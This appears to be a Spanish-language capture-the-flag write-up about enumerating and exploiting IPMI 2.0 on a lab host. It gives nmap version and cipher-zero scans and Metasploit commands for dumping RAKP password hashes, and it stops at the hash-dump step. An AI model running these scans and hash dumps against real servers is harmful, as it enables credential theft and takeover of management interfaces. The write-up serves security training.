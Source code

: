 Este es el **Intelligent Platform Management Interface (IPMI)**, un conjunto de especificaciones de interfaz de computadora autónoma que proporciona capacidades de administración y monitoreo independientemente de la CPU, el firmware y el sistema operativo del sistema host.

### Scripts de NMAP para IPMI

```bash
locate .nse | grep ipmi
```

Usaremos `ipmi-version`:

```bash
nmap --script ipmi-version -p623 -sU 10.10.11.124 -oN ipmi
```

**Resultado:** IPMI versión 2.0

### Vulnerabilidad IPMI 2.0

Según HackTricks, IPMI 2.0 tiene una vulnerabilidad de recuperación de hash para contraseñas remotas (autenticación RAKP de IPMI 2.0). Básicamente, se puede solicitar al servidor los hashes MD5 de cualquier nombre de usuario.

#### Verificación de vulnerabilidad Cipher Zero

```bash
sudo nmap --script ipmi-cipher-zero -p623 -sU 10.10.11.124 -oN cipherzero
```

**Resultado:** State vulnerable

Esto significa que podemos explotarlo. Instalamos `ipmitool` como se sugiere en HackTricks.

## Explotación IPMI

### Usando Metasploit

```bash
msf6 > use auxiliary/scanner/ipmi/ipmi_version
msf6 auxiliary(scanner/ipmi/ipmi_version) > set rhosts 10.10.11.124
msf6 auxiliary(scanner/ipmi/ipmi_version) > run
```

**Resultado:**
```
[+] 10.10.11.124:623 - IPMI - IPMI-2.0 UserAuth(auth_msg, auth_user, non_null_user) PassAuth(password, md5, md2, null) Level(1.5, 2.0)
```

### Dumping de hashes

```bash
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.10.11.124
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run
```
